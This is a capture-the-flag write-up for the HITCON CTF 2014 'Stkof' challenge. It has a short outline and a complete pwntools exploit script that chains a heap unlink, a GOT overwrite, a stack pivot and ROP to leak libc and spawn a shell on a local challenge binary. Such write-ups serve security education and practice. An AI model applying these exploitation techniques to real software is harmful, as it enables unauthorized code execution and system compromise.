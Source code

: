 # HITCON CTF 2014 - Stkof 

The given binary had a global-pointer and a heap overflow

 * we unlink the fake chunk 
 * overwrite atoll got with pop ; pop ; pop ; ret
 * causing esp to point to our buffer 
 * now we pivot stack to global pointer by using pop rsp ; ret
 * now execute the ropchain stored in one of the chunk 
 * and with this we can leak addr
 * after computing system addr we srore that addr in an area and finally return to it   

### Exploit 

```python

from pwn import * 

ptr = 0x602150 # index = 2 

atoll_got = 0x602060
puts_got = 0x602020
pppret   = 0x400dbe
pop_rsp_ret = 0x400dbd
#ropaddr = 0x602158
ropaddr = 0x602180
puts = 0x400760
pop_rdi_ret = 0x400dc3
pop_rbp_ret = 0x4008a0
pop_rsi_r15 = 0x400dc1

fgets = 0x40094d
bss = 0x602980

context.bits = 64 

p = process('./stkof')

def alloc(size):

	p.sendline('1')
	p.sendline(str(size))
	print p.recvlines(2)

def fill(index,payload):

	p.sendline('2')
	p.sendline(str(index))
	p.sendline(str(len(payload)+1))
	p.sendline(payload)
	print p.recvline()


def  free(index):

	p.sendline('3')
	p.sendline(str(index))
	print p.recvline()



alloc(128)
alloc(128)
alloc(128)


ropchain  = "A"*24
ropchain += pack(pop_rdi_ret)
ropchain += pack(puts_got)
ropchain += pack(puts)
# dummy 
ropchain += pack(pop_rbp_ret)
ropchain += pack(bss+0x70)
ropchain += pack(fgets)
ropchain += "A"*16
# first 16 byte
ropchain += pack(pop_rbp_ret)
ropchain += pack(bss+0x70)
ropchain += pack(fgets)
ropchain += "A"*16

ropchain += pack(pop_rbp_ret)
ropchain += pack(bss+0x70+16)
ropchain += pack(fgets)
ropchain += "A"*16


# next 8 bytes
ropchain += pack(pop_rbp_ret)
ropchain += pack(bss+0x70+16)
ropchain += pack(fgets)

ropchain += "A"*16

ropchain += pack(pop_rsp_ret)
ropchain += pack(bss-24)




payload  = pack(0x0)
payload += pack(0x0)
payload += pack(ptr-24)
payload += pack(ptr-16)
payload += "A"*96
payload += pack(128)
payload += pack(0x90)

fill(2,payload)

free(3)

payload_1 = "\x00"*24
payload_1 += pack(atoll_got)
payload_1 += "B"*40
payload_1 += ropchain

fill(2,payload_1)

payload_2 = pack(pppret)

print "[+] get ready !!"

fill(2,payload_2)

p.sendline("1")
p.sendline(pack(pop_rsp_ret)+pack(ropaddr))

leak = p.recvline().strip('\n')
context.bits = len(leak)*8
leak = unpack(leak)

print "[+] Leak: "+hex(leak)

system = leak - 0x29b10
binsh  = leak + 0xf8a39

context.bits = 64

final  =  pack(pop_rdi_ret)
final += pack(binsh)
final_1 = pack(system) 

p.clean(0)

p.sendline(final)
p.sendline(final_1)

p.interactive()

```

#### \# Unlink &nbsp; \# stack-pivot &nbsp; \# ROP